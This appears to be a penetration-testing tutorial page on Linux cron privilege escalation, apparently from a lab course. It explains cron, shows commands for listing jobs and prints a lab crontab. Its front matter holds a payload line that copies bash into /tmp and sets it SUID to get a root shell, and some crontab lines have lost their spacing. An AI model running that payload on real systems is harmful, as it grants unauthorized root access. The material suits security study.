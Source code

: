 ```yaml
---
description: echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash'
---
```


# ⌛ Cron & Timers

### Introduction

Cron is a time-based job scheduler in Unix-like operating systems. It allows users to schedule jobs (commands or shell scripts) to run periodically at fixed times, dates, or intervals. When misconfigured, Cron can be exploited for privilege escalation.

<figure><img src="https://contabo.com/blog/wp-content/uploads/2023/05/blog-head_syntax-of-cron.jpg" alt=""><figcaption></figcaption></figure>

### Identifying Cron Jobs

#### View User's Cron Jobs

To view the Cron jobs for the current user, use the following command:

```bash
crontab -l
```

or

```
TCM@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow usercommand
17 ** * *root    cd / && run-parts --report /etc/cron.hourly
25 6* * *roottest -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6* * 7roottest -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 61 * *roottest -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

#### View System-Wide Cron Jobs

System-wide Cron jobs are often stored in directories like `/etc/cron.d/` or `/etc/cron.daily/`. Examine these directories to identify scheduled tasks.
